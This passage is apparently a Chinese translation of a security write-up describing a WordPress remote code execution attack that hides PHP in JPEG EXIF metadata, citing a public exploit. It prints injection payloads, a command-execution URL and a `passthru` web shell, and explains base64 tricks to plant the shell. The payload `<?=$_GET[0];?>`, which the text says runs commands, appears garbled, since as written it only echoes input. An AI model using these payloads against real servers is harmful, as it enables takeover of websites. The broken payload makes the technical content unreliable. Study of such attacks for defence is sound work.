 ## **5。现有漏洞**

目前，有两个公开利用实施这一攻击。

### **漏洞利用#1**

[JavaScript 漏洞利用](https://www.exploit-db.com/exploits/46511/):该漏洞利用将以下命令注入 JPEG 图像的 EXIF 元数据:`<?php phpinfo();/*`

下面你可以看到一段来自公开漏洞的摘录，其中包括 JPEG 图像的十六进制数据。占位符`\x07PAYLOAD`将被上述命令替换。这个占位符有一个有限的大小，这就是为什么我们需要 18 个字符或更少的有效载荷。

![existing exploit payload](img/82f07f4285fc930d0675865d840e359a.png)可以缩短命令`<?=phpinfo();?>`而不改变结果。下面你可以看到精心制作的图像的 hexdump，包含我们的有效载荷:

我们决定利用这段代码，把它变成在服务器上运行命令的入口点。有效载荷的新形式将是:`<?=$_GET[0];?>`

当有效负载被执行时，攻击者可以使用这个 URL 运行任何命令:`http://localhost/wordpress/index.php/2019/05/07/rce-45/?0=id`

一个更强大的 shell 需要更大的有效负载，这是不可能通过注入 JPEG 文件的 EXIF 数据实现的；但是有一种方法可以绕过这个限制。为此，我们通过滥用上面的 URL 创建了一个新的 PHP 文件。

我们希望在服务器上创建一个包含以下内容的`shell.php`文件:

`<?php passthru($_GET[0]);?>`

我们能够做到这一点，并通过使用 base64 方案对内容进行编码来避免转义特殊字符。但是，encoding 在字符串末尾添加了一个“+”号；这破坏了 URL，因为浏览器将“+”视为空格字符，就像“%20”一样解决方案是使用 base64 对有效载荷进行双重编码。

![payload encoded using base64](img/ff7a684336b30a8c132a9e741081ccbf.png)
